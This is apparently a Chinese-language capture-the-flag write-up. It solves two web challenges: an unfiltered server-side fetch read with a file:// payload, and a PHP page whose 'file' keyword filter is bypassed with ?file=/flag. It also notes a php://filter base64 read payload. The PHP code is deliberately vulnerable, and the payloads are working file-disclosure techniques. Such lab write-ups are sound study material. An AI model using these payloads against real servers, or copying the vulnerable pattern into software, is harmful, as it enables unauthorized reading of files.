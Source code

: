 #

这里其实直接向别的服务器进行获取数据, 并且没有任何过滤;

那你也能向它的内网直接拿东西, 所以构造playload:

```bash
file:///fl4g
```

一凡引导之后来到了:

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
 die ("你败了.");
}

//flag in /flag
echo file_get_contents($file);
```

## 代码解释

在 PHP 中，stristr 函数用于执行不区分大小写的字符串查找。它返回字符串首次出现的位置，如果未找到则返回 false。

die 函数：
die 函数用于终止脚本的执行，并输出指定的消息作为最后一个输出。如果脚本中没有其他代码要执行，这通常用于提前结束脚本。

file_get_contents 是 PHP 中的一个内置函数，用于读取整个文件到一个字符串中。这是一个非常方便的函数，可以用来加载文件的内容到内存中以便进行处理。

## 解决

他这里其实只是禁用了参数里面带fild的写法, 你可以不带;

相当于只是禁用了file协议, 也就是根目录下file:///flag的写法

所以直接在出现该代码的该目录下 ?file=/flag即可

## 待学习

filter伪协议

```zsh
http://node2.anna.nssctf.cn:28560/ha1x1ux1u.php?file=php://filter/read=convert.base64-encode/resource=/flag
```
